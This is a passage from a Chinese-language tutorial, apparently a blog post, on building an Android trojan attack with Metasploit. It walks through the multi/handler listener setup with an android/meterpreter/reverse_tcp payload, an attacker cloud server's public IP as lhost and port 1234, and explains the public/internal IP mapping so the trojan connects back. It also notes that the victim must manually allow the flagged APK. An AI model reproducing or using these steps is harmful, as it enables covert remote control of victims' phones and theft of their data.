 （注：毕竟只是干 web 渗透的，所以这里对手机上的 apk 木马就不再进行编码加壳签名什么的了，手机检测到木马有危险性是肯定会的，手动允许一下就可以。）

**好了，手机现在安装上木马了，回到云服务器上打开监听模块。**

（要是小伙伴们真的想研究，以后等我有时间再专门研究一下 apk 木马绕过，再发文讨论吧。）

### 七、msf 中 handler 选项配置

进入云服务器。打开 msf 控制台。

**使用 handler 监听木马。**

use exploit/multi/handler

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMfRwawV8VEm1SBHQTuBqy25OH9T3OZVGgyS4rrVUSoTd822NTicE5snQ/640?wx_fmt=png)  
查看参数配置。

options

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMSEP4OyOW5KDoNmu68uicGaf27dhfzSNQSLWEY9fNOIRUvBqmpLV0mbQ/640?wx_fmt=png)  
这里只需要设置三个参数。payload,lhost,lport。  
三串命令。

set payload android/meterpreter/reverse_tcp

set lhost xxx.xxx.xxx.xxx

这里 lhost 就是这里云服务器的公网 ip。

set lport 1234

options

设置完之后再查看一下配置，看看是否设置成功。

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMOcDXps9ncj9O9T677V4o4Eosl5pHsribmibYg1SwiclRlCV53ZgznrJ5A/640?wx_fmt=png)  
可以看到已经成功了。

#### 八、两对 lhost,lport

这里详细解释一下这两对 ip 的端口。在生成木马时的 ip 和端口设置比较简单，就是云服务器的公网 ip 和公网端口。这里没什么好说的。

重点要说一下监听模块设置的 ip 和端口，端口还是一样的，公网内网都要是同一个端口号，意思就是木马里写的是公网里的一个端口（前提是开放的端口），内网就要开启相应的端口进行监听。这里也很好理解。最后就只剩下监听 ip。

**这里我们到底要设置公网还是内网的呢？**

诶，你会发现不管设置公网还是内网都可以监听到木马。

  
为什么呢？我们来看看这里。

  
这里是开公网端口时的设置。

  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMTAL9Z3xwLCnhibbiaUlGPZmsiaukmO02X1Mx3NwySFU7FicZCKkCK8fOew/640?wx_fmt=png)  
相信大家都已经懂了。

**执行木马后，木马通过公网 ip 找到公网 ip 服务器，应该说是路由器。**
